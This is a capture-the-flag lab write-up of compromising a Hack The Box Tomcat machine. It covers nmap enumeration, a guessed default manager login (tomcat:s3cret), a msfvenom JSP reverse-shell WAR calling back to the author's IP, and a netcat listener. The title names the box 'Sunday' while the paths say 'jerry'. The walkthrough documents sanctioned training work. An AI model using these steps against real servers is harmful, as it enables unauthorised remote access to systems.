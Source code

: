 # Hack The Box: Sunday machine write-up

This was my first attempt on a Windows machine and so I chose an easy machine, maybe too easy. It runs with ip 10.10.10.95.

### Enumeration

We start by enumerating open ports to discover the services running in the machine. I ran the following:

*Result of first nmap scan*

```sh
# Nmap 7.01 scan initiated Mon Oct  8 10:22:18 2018 as: nmap -sV -sC -Pn -oA nmap/initial 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.036s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct  8 10:22:33 2018 -- 1 IP address (1 host up) scanned in 14.38 seconds
```

I needed to use the ``-Pn`` option to treat the host as online, otherwise nmap wouldn't discover any ports.

So the only port open is 8080 for a web server. Let's check it out!

*Fresh installation page of apache tomcat*

![Img](images/fresh.png)

I knew for one of the previous boxes I had done that Tomcat has an online manager accesible, so I tried with ``/manager`` and was prompted for a username and password. With a bit of luck I guessed it right: ``tomcat:s3cret``.

Then we get in a control panel where a .WAR file can be uploaded. Looks like we found our entry point!

*Control panel of apache tomcat*

![Img](images/control.png)

*Option to upload a .WAR file*

![Img](images/war.png)

### Exploit

I used msfvenom to create a java reverse shell pointing to my IP address. Then I decompressed it to know what path to request in order to get my shell.

```console
parallels@ubuntu:~/Desktop/jerry$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.13.200 LPORT=1234 -f war > reverse.war
Payload size: 1102 bytes
Final size of war file: 1102 bytes

parallels@ubuntu:~/Desktop/jerry$ jar -xvf reverse.war
   created: WEB-INF/
  inflated: WEB-INF/web.xml
  inflated: lmfuyxnlrwrnfg.jsp
```

With that I know that I have to make the following request to get the shell:

```
http://10.10.10.95:8080/reverse/lmfuyxnlrwrnfg.jsp
```

Before making the request, I used netcat to listen on the specified port, 1234. I used ``nc -lnvp 1234``. Once done, I visit the page and get a blank one but once I check I've got a reverse shell!

*Reverse shell connection*

![Img](images/shell.png)

### Getting user and root

This was the most straightforward and easy machine I've done to get root and user. I started doing some manual enumeration when I found a path in the admin account that contained a file called ``2 for the price of 1.txt``. Yep, it contained both hashes...

*Getting both hashes*

![Img](images/hashes.png)

*Diego Bernal Adelantado*
